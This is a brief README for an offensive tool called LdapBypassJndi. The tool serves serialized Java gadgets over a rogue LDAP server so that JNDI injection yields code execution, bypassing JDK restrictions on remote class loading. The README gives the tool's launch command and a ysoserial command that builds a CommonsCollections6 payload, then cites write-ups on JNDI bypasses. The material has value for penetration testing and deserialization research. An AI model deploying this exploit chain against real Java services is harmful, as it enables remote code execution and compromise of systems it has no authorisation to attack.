 # LdapBypassJndi

>The function of the tool is to inject JNDI through LDAP

Principle: use LDAP to return serialized data and trigger local gadget

Use:  **Java - jar ldapbypassjndi.jar port poc.ser**

Port: is the listening port, which is equivalent to the listening port of the server

Poc.ser: serializes Base64 encoded gadgets

```
java -jar ysoserial.jar CommonsCollections6 "calc" | base64 >win-cc6-calc-poc.ser
```

![5](./img/poc.gif)

In short, it is equivalent to a deserialization entry. To use it, you need to have a local one.

>Reference resources:
>
>https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html
>
>https://www.mi1k7ea.com/2020/09/07/%E6%B5%85%E6%9E%90%E9%AB%98%E4%BD%8E%E7%89%88JDK%E4%B8%8B%E7%9A%84JNDI%E6%B3%A8%E5%85%A5%E5%8F%8A%E7%BB%95%E8%BF%87/


